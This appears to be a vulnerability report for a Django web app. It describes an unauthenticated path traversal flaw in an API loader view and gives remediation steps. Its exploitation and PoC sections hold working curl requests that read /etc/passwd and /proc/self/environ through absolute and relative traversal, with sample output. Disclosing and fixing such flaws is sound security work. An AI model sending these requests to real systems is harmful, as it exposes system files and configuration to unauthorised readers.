



# Description

Path traversal / arbitrary file read (CWE-22) in the API loader view (`Api/views.py:3875-3886`).

The loader relies on an incomplete deny-list and does not enforce proper path canonicalisation or directory confinement.

The view does not implement an explicit authentication check. Unauthorized file disclosure may expose system information and internal application configuration, subject to filesystem permissions, input restrictions and text decoding.

# Exploitation

1. Request an absolute path with no login:
   ```
   GET /api/loader/?file=/etc/passwd
   ```
2. Read the process environment to harvest internal config:
   ```
   GET /api/loader/?file=/proc/self/environ
   ```
   reveals `DJANGO_SETTINGS_MODULE`, `OLLAMA_BASE_URL=http://ollama:11434`, container hostname, etc.

# PoC

**Step 1 — read `/etc/passwd` (unauthenticated):**

```bash
curl -s "http://<TARGET>/api/loader/?file=/etc/passwd"
# root:x:0:0:root:/root:/bin/bash
# ...
# appuser:x:1000:1000::/home/appuser:/bin/sh
```



**Step 2 — internal configuration disclosure:**

```bash
curl -s "http://<TARGET>/api/loader/?file=/proc/self/environ" | tr '\0' '\n'
# DJANGO_SETTINGS_MODULE=djangoWocshack_5.settings.production
# OLLAMA_BASE_URL=http://ollama:11434
# OLLAMA_MODEL=gemma3:1b
# HOSTNAME=0cc8106742ea
```



**Step 3 — relative traversal also works:**

```bash
curl -s "http://<TARGET>/api/loader/?file=../../../etc/passwd"   # same output as Step 1
```



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Unauthorized disclosure of process-readable text files, subject to existing restrictions, including system information and internal application configuration. |
| Integrity | Indirect — disclosed configuration may contribute to other vulnerability chains. |
| Availability | None directly demonstrated. |

Overall severity: **High** — unauthorized file disclosure exposes sensitive system information and internal application configuration.

# Remediation

1. **Allow-list filenames** or resolve server-controlled resource identifiers instead of accepting arbitrary filesystem paths.
2. **Canonicalise and validate the final path** to ensure that it remains within the intended base directory.
3. **Reject invalid or unauthorized paths** before opening files.
4. **Enforce appropriate authentication and authorization** according to the intended access policy.
5. **Apply least-privilege filesystem permissions** to limit the application's access to sensitive files.
6. **Add regression tests** covering path validation, directory confinement and unauthorized file access.

# Author
Hackrapovic
 